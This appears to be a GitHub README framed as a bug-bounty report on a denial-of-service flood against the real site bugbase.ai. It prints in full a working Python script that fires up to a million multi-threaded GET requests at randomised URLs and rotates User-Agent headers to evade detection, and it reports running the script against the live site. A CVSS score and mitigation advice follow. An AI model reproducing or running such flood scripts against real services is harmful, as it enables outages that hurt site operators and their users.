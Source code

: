# Bug_bass
Bugbase Ddos

### Report: DDoS through Resource Exhaustion Using `doublebass.py`

#### Overview

This report details a Distributed Denial of Service (DDoS) attack executed through resource exhaustion using a Python script (`doublebass.py`). The attack targets the website `https://bugbase.ai`, aiming to overload its resources and deny legitimate access. The script generates a high volume of GET requests using randomly generated URLs, leveraging multi-threading to maximize impact.

#### Attack Description

**Script: `doublebass.py`**
- The script sends a large number of GET requests to the target URL with randomized suffixes.
- It utilizes multi-threading to create parallel requests, significantly increasing the load on the target server.
- User-Agent headers are rotated to mimic requests from different devices and platforms, making detection harder.
- The script can be configured to repeat the attack a specified number of times (set to 1,000,000 in the example).

```python
import requests
import threading
import random
import string
import time

# Base URL pattern with a placeholder for the random suffix
base_url_pattern = "https://bugbase.ai/dashboard/reports/{suffix}"

# Function to generate random suffixes
def generate_random_suffix(length=24):
    return ''.join(random.choices(string.ascii_lowercase + string.digits, k=length))

# List of user agents to rotate through
user_agents = [
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.64 Safari/537.36',
    'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36',
    'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0.3 Safari/605.1.15',
    'Mozilla/5.0 (iPhone; CPU iPhone OS 14_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0 Mobile/15E148 Safari/604.1',
    # Add more user agents as needed
]

# Number of times to repeat the attack
repeat = 1000000  # Set this to a large number for a heavier attack simulation

# Function to perform the GET request
def perform_get_request(base_url_pattern, headers, i):
    try:
        random_suffix = generate_random_suffix()
        url = base_url_pattern.format(suffix=random_suffix)

        response = requests.get(url, headers=headers)

        # Print out the response code, final URL after redirect, and the payload used
        print(f"Attempt {i + 1}: Requested URL {url} - Final URL: {response.url} - Status Code: {response.status_code}")
    except Exception as e:
        print(f"Error occurred: {e}")

# Function to handle threading
def get_with_threads(base_url_pattern, repeat):
    threads = []
    for i in range(repeat):
        headers = {
            'User-Agent': user_agents[i % len(user_agents)],
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
            'Connection': 'keep-alive',
        }

        if len(threads) >= 100:  # Manage thread count
            for thread in threads:
                thread.join()
            threads = []

        thread = threading.Thread(target=perform_get_request, args=(base_url_pattern, headers, i))
        threads.append(thread)
        thread.start()

     #   time.sleep(0.001)  # Optional delay to manage rate-limiting

    # Wait for all remaining threads to complete
    for thread in threads:
        thread.join()

# Example usage
if __name__ == "__main__":
    get_with_threads(base_url_pattern, repeat)
```
  
**Observed Behavior:**
- The attack led to HTTP 429 errors (`Too Many Requests`), indicating the server's rate-limiting mechanisms were triggered.
- Successful status code 200 responses were also observed, indicating some requests bypassed the rate-limiting temporarily.

#### Images and Script Evidence

1. **Evidence of Attack Execution:**
   ![computer check](https://raw.githubusercontent.com/DeadmanXXXII/Do_you_like_bass/main/PXL_20240909_095222744.jpg)
   
   This image shows the browser displaying an HTTP 429 error (`Too Many Requests`) during the attack.

2. **Script Execution Output:**
   ![termint output](https://raw.githubusercontent.com/DeadmanXXXII/Do_you_like_bass/main/Screenshot_20240909-105211.png)
   
   This screenshot captures the script's execution on a mobile device, showing numerous GET requests sent to `https://bugbase.ai` and corresponding status codes.

#### Impact Assessment

**Potential Impact:**
- **Resource Depletion:** The flood of requests can deplete server resources, including CPU, memory, and bandwidth, potentially causing downtime.
- **Service Disruption:** Legitimate users may be unable to access the website, leading to a loss of business, reputation damage, and potential financial losses.

**CVSS Score:**
- **Base Score:** 7.5 (High)
- **Vector:** AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
- **Explanation:** The attack is remotely exploitable with low complexity, requiring no authentication. It primarily affects the availability of the target website without compromising confidentiality or integrity.

**CWE ID:**
- **CWE-400: Uncontrolled Resource Consumption ('Resource Exhaustion')**
  - **Description:** The vulnerability occurs when an attacker can send a large number of requests or cause significant processing overhead, leading to resource exhaustion on the server.

#### Conclusion

The `doublebass.py` script effectively simulates a DDoS attack through resource exhaustion, impacting the availability of `https://bugbase.ai`. The attack triggers rate-limiting mechanisms but continues to overload the server, causing intermittent service disruptions. To mitigate such attacks, implementing stronger rate-limiting, IP blacklisting, and using a content delivery network (CDN) with DDoS protection are recommended.

#### Recommendations:
- **Rate Limiting:** Strengthen the existing rate-limiting rules to block repetitive requests more aggressively.
- **DDoS Mitigation Services:** Implement DDoS protection services such as Cloudflare or AWS Shield to absorb and filter malicious traffic.
- **Server Hardening:** Optimize server configurations to handle a higher volume of requests without resource depletion.
